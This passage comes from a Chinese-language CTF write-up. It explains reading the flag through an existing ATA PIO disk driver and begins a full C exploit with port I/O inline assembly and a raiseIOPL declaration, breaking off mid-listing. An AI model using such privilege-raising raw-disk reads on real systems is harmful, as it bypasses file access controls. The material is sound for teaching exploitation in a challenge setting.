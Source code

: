[![](https://p3.ssl.qhimg.com/t01ba54b80d6cce5771.png)](https://p3.ssl.qhimg.com/t01ba54b80d6cce5771.png)

解决办法是利用现成的ATA PIO驱动程序读取flag，[https://github.com/dhavalhirdhav/LearnOS/blob/fe764387c9f01bf67937adac13daace909e4093e/drivers/ata/ata.c](https://github.com/dhavalhirdhav/LearnOS/blob/fe764387c9f01bf67937adac13daace909e4093e/drivers/ata/ata.c)

[![](https://p0.ssl.qhimg.com/t014cfd3c6210df858e.png)](https://p0.ssl.qhimg.com/t014cfd3c6210df858e.png)



## Script

完整的exploit

```
#include &lt;sys/cdefs.h&gt;
#include &lt;stdio.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/ptrace.h&gt;
#include &lt;assert.h&gt;
#include &lt;LibC/sys/arch/i386/regs.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;stdlib.h&gt;

// IDE Reading Code taken from https://github.com/dhavalhirdhav/LearnOS/blob/fe764387c9f01bf67937adac13daace909e4093e/drivers/ata/ata.c

#define STATUS_BSY 0x80
#define STATUS_RDY 0x40
#define STATUS_DRQ 0x08
#define STATUS_DF 0x20
#define STATUS_ERR 0x01

// -Wall, -Werror :(
void raiseIOPL(void);
unsigned char port_byte_in(unsigned short port);
uint16_t port_word_in (uint16_t port);
void port_byte_out(unsigned short port, unsigned char data);
static void ATA_wait_BSY();
static void ATA_wait_DRQ();
void read_sectors_ATA_PIO(uint32_t target_address, uint32_t LBA, uint8_t sector_count);

unsigned char port_byte_in (unsigned short port) `{`
    unsigned char result;
    __asm__("in %%dx, %%al" : "=a" (result) : "d" (port));
    return result;
`}`

void port_byte_out (unsigned short port, unsigned char data) `{`
    __asm__("out %%al, %%dx" : : "a" (data), "d" (port));
`}`

uint16_t port_word_in (uint16_t port) `{`
    uint16_t result;
    __asm__("in %%dx, %%ax" : "=a" (result) : "d" (port));
    return result;
`}`

#define BASE 0x1F0

void read_sectors_ATA_PIO(uint32_t target_address, uint32_t LBA, uint8_t sector_count)
```